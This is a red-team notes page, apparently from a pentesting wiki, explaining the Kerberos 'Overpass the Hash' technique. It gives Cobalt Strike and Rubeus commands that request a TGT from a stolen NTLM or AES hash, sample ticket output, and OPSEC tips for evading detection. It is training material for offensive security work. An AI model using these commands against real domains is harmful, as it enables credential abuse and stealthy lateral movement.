 # Overpass The Hash

## Overpass The Hash

Overpass The Hash is a technique that allows us to request a kerberos TGT for a user, using their NTLM or AES hash.

#### <mark style="color:red;">Note</mark>: Elevated privileges are required to obtain a user hash, but not needed to request a kerberos TGT.

## Cobalt Strike - Rubeus w/ NTLM

```powershell
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:robert /ntlm:2B576ACBE6BCFDA7294D6BD18041B8FE /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 2B576ACBE6BCFDA7294D6BD18041B8FE
[*] Building AS-REQ (w/ preauth) for: 'dev.rotta.dev\robert'
[*] Using domain controller: 10.15.211.9:88

[09/01 10:24:04] [+] received output:
[+] TGT request successful!
[*] base64(ticket.kirbi):

  ServiceName              :  krbtgt/dev.rotta.dev
  ServiceRealm             :  DEV.ROTTA.DEV
  UserName                 :  robert
  UserRealm                :  DEV.ROTTA.DEV
  ...
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  MkI1NzZBQ0JFNkJDRkRBNzI5NEQ2QkQxODA0MUI4RkU=
  ASREP (key)              :  2B576ACBE6BCFDA7294D6BD18041B8FE
```

Note: Now that we've obtained a TGT, it can then be leveraged via Pass the Ticket.

### OPSEC

<mark style="color:red;">**Note**</mark>: Using an NTLM hash results in a ticket encrypted using RC4 (0x17). This is considered a legacy encryption type and therefore often stands out as anomalous in a modern Windows environment. It's better to request a TGT with AES than it is with NTLM. _**The below example is better OPSEC.**_

## Cobalt Strike - Rubeus w/ AES

```powershell
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:robert /aes256:<aeshash> /nowrap
```

## OPSEC

If no `/domain` is specified, Rubeus uses the FQDN of the domain this computer is in.  Instead, we can force it to use the NetBIOS name with `/domain:DEV`. &#x20;

The `/opsec` flag  tells Rubeus to request the TGT in a way that results in the Ticket Options being 0x40810010.

```powershell
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:robert /aes256:<aeshash> /domain:DEV /opsec /nowrap
```
